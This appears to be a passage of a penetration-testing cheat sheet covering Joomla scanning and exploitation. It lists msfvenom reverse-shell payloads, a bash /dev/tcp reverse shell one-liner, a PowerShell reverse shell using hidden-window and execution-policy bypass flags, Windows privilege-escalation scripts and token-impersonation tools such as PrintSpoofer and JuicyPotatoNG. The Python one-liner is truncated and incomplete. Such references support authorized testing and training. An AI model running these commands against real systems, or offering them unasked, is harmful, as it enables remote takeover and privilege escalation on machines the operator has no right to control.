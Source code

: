 ### Joomla Attacks

```bash
joomscan --url http://target.com  
```

* * *

## 4\. Exploitation

### Reverse Shells

#### **Msfvenom Payloads**

```bash
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f exe > shell.exe  
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php  
```

#### **One-Liner Reverse Shells**

```bash
bash -i >& /dev/tcp/<IP>/4444 0>&1  
python -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);'  
```

#### **PowerShell Reverse Shell**

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("<IP>",4444)
```

* * *

### Windows Privilege Escalation

#### **Basic Service Commands**

```powershell
Start-Service <service>  
Stop-Service <service>  
Restart-Service <service>  
```

#### **Automated Privilege Escalation Scripts**

```powershell
winpeas.exe  
Invoke-PrivescCheck.ps1  
PowerUp.ps1  
```

#### **Token Impersonation**

```powershell
PrintSpoofer.exe -i -c powershell.exe  
JuicyPotatoNG.exe -t * -p "cmd.exe"  
```
